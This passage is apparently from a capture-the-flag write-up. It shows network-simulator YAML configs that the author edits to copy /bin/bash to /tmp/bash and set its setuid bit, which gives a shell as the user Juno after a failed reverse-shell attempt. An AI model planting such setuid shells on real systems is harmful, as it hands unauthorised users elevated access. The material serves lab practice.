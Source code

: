 ```
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

My initial idea was to get a reverse shell either using curl or python which are already used and I would just need to change the args, but after trying I could get it to work. So I changed my approach to using bash and group permissions. I edit the script so that It copies a bash binary and applies permissions so that when I run it with -p I get a shell as Juno.

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/bash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/bash
      start_time: 5s
```
